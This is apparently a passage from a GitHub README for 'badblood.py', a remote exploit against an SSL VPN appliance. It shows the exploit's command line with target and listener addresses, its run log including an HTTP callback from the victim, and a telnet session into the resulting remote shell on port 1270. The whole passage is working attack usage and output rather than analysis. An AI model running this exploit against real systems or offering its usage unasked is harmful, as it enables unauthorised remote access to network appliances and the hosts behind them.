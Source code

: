```
Connected to 10.0.0.7.
Escape character is '^]'.

bash-4.2$ whoami
nobody
bash-4.2$ 
```

#### I know the exact address of $ebp+8

My man. Use --addr.

```
albinolobster@ubuntu:~/badblood$ date
Mon Jan 10 05:48:58 PM PST 2022
albinolobster@ubuntu:~/badblood$ python3 badblood.py --rhost 10.0.0.7 --lhost 10.0.0.3 --rversion 10.2.1.2-24sv --addr 3215229520

▄▄▄▄    ▄▄▄      ▓█████▄     ▄▄▄▄    ██▓     ▒█████   ▒█████  ▓█████▄     
▓█████▄ ▒████▄    ▒██▀ ██▌   ▓█████▄ ▓██▒    ▒██▒  ██▒▒██▒  ██▒▒██▀ ██▌  
▒██▒ ▄██▒██  ▀█▄  ░██   █▌   ▒██▒ ▄██▒██░    ▒██░  ██▒▒██░  ██▒░██   █▌
▒██░█▀  ░██▄▄▄▄██ ░▓█▄   ▌   ▒██░█▀  ▒██░    ▒██   ██░▒██   ██░░▓█▄   ▌ 
░▓█  ▀█▓ ▓█   ▓██▒░▒████▓    ░▓█  ▀█▓░██████▒░ ████▓▒░░ ████▓▒░░▒████▓ 
░▒▓███▀▒ ▒▒   ▓▒█░ ▒▒▓  ▒    ░▒▓███▀▒░ ▒░▓  ░░ ▒░▒░▒░ ░ ▒░▒░▒░  ▒▒▓  ▒ 
▒░▒   ░   ▒   ▒▒ ░ ░ ▒  ▒    ▒░▒   ░ ░ ░ ▒  ░  ░ ▒ ▒░   ░ ▒ ▒░  ░ ▒  ▒  
 ░    ░   ░   ▒    ░ ░  ░     ░    ░   ░ ░   ░ ░ ░ ▒  ░ ░ ░ ▒   ░ ░  ░  
 ░            ░  ░   ░        ░          ░  ░    ░ ░      ░ ░     ░     
      ░            ░               ░                            ░       

[+] Spinning up HTTP server
[+] User provided the crash address: bfa48250
[+] Filtering addresses for double visits (thanks awesome payload!)
[+] Filtered down to 1 total addresses to search
[+] Crashing all forks to reset stack to a semi-predicatable state
[+] Crashing complete. Good job. Let's go do work.
[+] Disabling stderr
[+] Spawning 4 workers
[+] Attempting to exploit the remote server. This might take quite some time. :eek:

[*] Received an HTTP callback from 10.0.0.7 at 10/Jan/2022 17:49:08
[*] Now we got bad blood. Hey! 🦞
albinolobster@ubuntu:~/badblood$ telnet 10.0.0.7 1270
Trying 10.0.0.7...
Connected to 10.0.0.7.
Escape character is '^]'.

bash-4.2$ whoami
nobody
bash-4.2$ uname -a
Linux sslvpn 3.13.3 #1 SMP Tue Oct 12 09:52:15 GMT 2021 i686 i686 i386 GNU/Linux
bash-4.2$ 
```
